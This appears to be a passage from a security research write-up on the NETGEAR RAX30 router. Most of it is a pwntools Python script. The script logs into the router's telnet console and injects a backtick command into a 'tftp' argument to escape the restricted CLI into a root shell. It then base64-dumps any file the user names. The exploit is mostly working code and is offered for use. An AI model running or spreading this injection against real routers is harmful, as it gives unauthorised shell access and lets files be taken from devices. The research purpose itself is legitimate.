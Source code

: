 ![decodegdbserver](img/decode_gdbserver.png)

**Script for get file from router**
```python
from pwn import *
import argparse
from os import system

parser = argparse.ArgumentParser(description="Get file from NETGEAR RAX30")
parser.add_argument("--file", "-f", help="File to get", required=True)
parser.add_argument("--remote", "-r", help="Remote IP", required=True)
parser.add_argument("--output", "-o", help="Output file location")

args = parser.parse_args()
IP = args.remote
file = args.file
if args.output:
    output = args.output
else:
    output = "./output"

io = remote(str(IP), 23)
sla =io.sendlineafter
sa = io.sendafter

sla(b"Login: ", b"admin")
sla(b"Password: ", b"<yourpassword>")

sla(b"> ", b"tftp `/bin/bash 1>&0`")
sla(b"# ", f"base64 {file}".encode())
io.recvline(0)
soap_64 = io.recvuntil(b"#")[:-2].replace(b"\n", b"").replace(b"\r", b"")
# print(soap_64)
```